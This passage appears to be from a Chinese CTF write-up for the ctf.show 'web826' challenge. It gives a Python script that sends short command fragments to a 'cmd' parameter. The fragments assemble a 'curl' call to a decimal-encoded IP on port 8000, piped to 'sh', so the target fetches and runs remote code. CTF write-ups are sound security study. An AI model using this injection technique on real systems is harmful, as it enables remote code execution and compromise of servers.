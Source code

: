 ```python
if __name__ == '__main__':
	main()

```

## web826

外带数据

本子：

```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-05-06 13:25:41
# @Last Modified by:   h1xa
# @Last Modified time: 2022-05-10 20:55:58
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


import requests
import time

url = "http://d6373b16-848d-4656-9a30-d1fbb18d8678.challenge.ctf.show/"
#url="http://101.34.94.44/aaa/index.php"

payload = [
'>\\ \\',
'>-t\\',
'>\\>a',
'>ls\\',
'ls>v',
'>mv',
'>vt',
'*v*',
'>ls',
'l*>t',
'>cat',
'*t>z',

#这个地方的ip是用的10进制，因为用普通的ip地址存在多个点号。
#可以用这个网站转https://tool.520101.com/wangluo/jinzhizhuanhuan/
'>sh',
'>\\|\\',
'>00\\',
'>80\\',
'>\\:\\',
'>48\\',
'>11\\',
'>75\\',
'>96\\',
'>16\\',
'>\\ \\',
'>rl\\',
'>cu\\',

'sh z',
'sh a',
]
def writeFile(payload):
	data={
	"cmd":payload
	}
```